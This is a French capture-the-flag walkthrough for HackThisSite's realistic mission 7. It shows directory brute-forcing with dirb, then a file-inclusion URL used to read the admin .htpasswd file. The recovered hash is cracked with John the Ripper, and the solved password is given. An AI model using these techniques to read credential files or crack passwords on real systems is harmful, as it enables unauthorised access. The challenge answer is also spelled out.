








## 7.What's Right For America

1.Chercher les url caché

`dirb https://www.hackthissite.org/missions/realistic/7/`

trouver le lien https://www.hackthissite.org/missions/realistic/7/images

et le lien 

https://www.hackthissite.org/missions/realistic/7/images/admin

2. Cherche le nom de user et le mot de passe

Retournez à la page d'accueil, cliquez sur ‘Patriotism’ ci-dessous, vous verrez que le lien devient https://www.hackthissite.org/missions/realistic/7/showimages.php?file=patriot.txt,
il semble qu'une étape de recherche de fichiers a été exécutée. Utilisez à nouveau le balayage de répertoires pour voir ce qu'il y a dans ‘images/admin’ comme lien.
`https://www.hackthissite.org/missions/realistic/7/showimages.php?file=images/admin/`

 il existe deux liens :
 
 https://www.hackthissite.org/missions/realistic/7/showimages.php?file=images/admin/.htpasswd
 https://www.hackthissite.org/missions/realistic/7/showimages.php?file=images/admin/.htaccess

3.https://www.hackthissite.org/missions/realistic/7/showimages.php?file=images/admin/.htpasswd

4.L'info d'image

info importante :`administrator:$1$AAODv...$gXPqGkIO3Cu6dnclE/sok1`

nom de l’utilisateur :administrator
le mot de passe est crypté par hash.

5.Décrypte le mot de pass
Écrire le text dans le ficher et le nommer 'hash.txt'
avec le command sur kali linux

`john hash.txt`

8.login
nom de l’utilisateur :administrator
mot de pass :shadow

